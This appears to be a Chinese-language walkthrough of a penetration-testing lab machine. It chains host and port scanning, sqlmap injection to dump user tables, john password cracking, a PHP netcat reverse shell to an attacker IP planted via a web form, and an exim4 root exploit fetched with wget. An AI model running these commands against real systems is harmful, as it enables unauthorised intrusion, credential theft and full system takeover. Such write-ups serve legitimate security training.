1. 主机扫描使用arp-scan扫描工具  --localnet 扫描本地网络

    

    ​`.1`​（通常是网关或路由器的地址）和`.255`​（广播地址）。而`.254`​ 经常被用作子网内的一个特殊设备（如DHCP服务器）的地址，但这不是一个固定的规则.
2. 使用Nmap端口扫描   -sV：探测开放端口以确定服务/版本信息；

    ​ **​`-p-`​** ​：这个选项告诉 Nmap 扫描目标上所有可能的端口（从 1 到 65535）。默认情况下，Nmap 只会扫描一些常见的端口，但使用 `-p-`​ 选项可以确保扫描所有端口

    
3. 使用dirsearch扫描目录 python3 dirsearch.py -u [target_url]  # 攻击目标url地址

    dirsearch -u 192.18.142 -e * -x 403 --random-agent

    ​`-e *`​ 参数表示使用所有内置的扩展名列表进行扫描

    ​`--random-agent`​ 在请求时使用随机的用户代理字符串，这有助于绕过一些基于用户代理的访问控制或日志记录。

    ​`-x 403`​ 参数在这里可能是想排除状态码为 403 Forbidden 的响应。

    
4. 访问网站

    
5. 发现注入点

    
6. sqlmap扫描

    
7. 发现存在注入

    布尔盲注、报错注入、时间盲注、联合查询

    
8. 扫描数据库

    sqlmap -u "http://192.168.18.142/?nid=1" -dbs

    

    
9. 根据数据库名扫描表

    sqlmap -u "http://192.168.18.142/?nid=1" -D d7db -tables

    

    
10. 扫描users表

     

     得到后台账密

     
11. 将密码复制出来保存到adpass.txt和johnpass.txt文件中，然后使用john工具进行爆破

     
12. 得到账户john的密码为turtle，账户admin的密码无法爆破

     使用dirb命令`dirb http://192.168.18.142`​  扫描网站目录和文件

     dirb http://192.168.18.142

     

     #### robots.txt

     是一个纯文本文件，在这个文件中网站管理者可以声明该网站中不想被robots访问的部分，robots.txt 文件规定了搜索引擎抓取工具可以访问您网站上的哪些网址。或者指定搜索引擎只收录指定的内容。

     当一个搜索机器人（有的叫搜索蜘蛛）访问一个站点时，它会首先检查该站点根目录下是否存在robots.txt
13. 登录上方页面找到登录地址

     
14. 根据地址找到登录页面并登录

     
15. 然后将反弹shell的命令`  <?php system("nc -e /bin/bash 192.168.172.131 1234"); ?>   `IP地址为kali的IP地址  nc反向shell

     System()函数的主要功能是在系统权限允许的情况是执行系统命令
     
16. 监听靶机

     
17. 然后回到网站contact us的view页面，随便输入一些信息然后点击【submit】就可以反弹回shell

     
18. 
19. 此时的shell不是交互式shell，所以使用命令`python -c "import pty; pty.spawn('/bin/bash')"`​获取一个交互式的shell

     
20. 查看可以用于suid提权的命令    `find / -user root -perm -4000 -print 2>/dev/null`​ ★★

     * ​`find /`​：`find`​命令用于在目录树中搜索文件，并可以对搜索结果执行操作。这里的`/`​表示从根目录开始搜索整个系统。
     * ​`-user root`​：这个选项告诉`find`​命令只查找属于用户`root`​​​的文件。`root`​是Linux系统中的超级用户，拥有对系统的完全访问权限。
     * ​`-perm -4000`​：这个选项用于查找具有特定权限的文件。`-perm`​后面跟的数字或符号表示文件的权限。在这里，`-4000`​是一个特殊的权限位，它代表设置用户ID（SUID）权限。当一个可执行文件具有SUID权限时，用户执行该文件时将以文件所有者的身份运行（在这个例子中是`root`​）。这允许普通用户执行通常需要更高权限的操作。然
     * ​`-print`​：<u>​`find`​</u>​<u>命令默认会将找到的文件名输出到标准输出（通常是屏幕）。</u>​<u>​`-print`​</u>​<u>选项实际上在这里是隐式的，但明确写出来可以增强命令的可读性</u>。它告诉`find`​命令打印出找到的每个文件的路径。
     * ​`2>/dev/null`​：★★★**这部分是重定向的一部分**，用于处理错误消息。在shell中，`2`​​​​ 代表标准错误（stderr），而`>`​是重定向操作符。`/dev/null`​​​​ 是一个特殊的设备文件，通常被称为“空设备”或“黑洞”。写入它的任何数据都会被丢弃，读取它时通常立即返回文件结束。因此，`2>/dev/null`​的意思是将所有标准错误输出重定向到`/dev/null`​​​，这样就不会在屏幕上显示任何错误信息了。这对于忽略那些由于权限不足而无法访问的目录的错误消息特别有用。

     
21. 发现一个比较奇怪的命令exim4，先查看一下命令版本   `/usr/sbin/exim4 --version`​

     
22. ​`searchsploit exim 4`​     搜索可以利用的提权方法  选择使用46996.sh

     
23. 使用靶机的wget命令将该脚本下载到靶机中，先将kali机的apache服务开启，命令`service apache2 start`​

     
24. 将攻击脚本文件复制到Apache服务的根目录/var/www/html下，命令`cp /usr/share/exploitdb/exploits/linux/local/46996.sh /var/www/html/exp.sh`​

     
25. 在kali中使用set ff\=unix，告诉编译器，使用unix换行符，否则会无法使用脚本

     

     
26. 在靶机反弹回来的shell处使用命令`wget http://192.168.172.131/exp.sh`​将脚本下载到靶机中

     由于前面目录没有权限所以换目录下载

     

     
27. 成功将exp.sh下载到靶机中，但是发现没有执行权限，使用命令`chmod +x exp.sh`​赋予脚本执行权限，并使用命令`./exp.sh -m netcat`​来执行脚本

     

     
28. 提权成功，跳转到/root目录下即可查看flag

     

‍
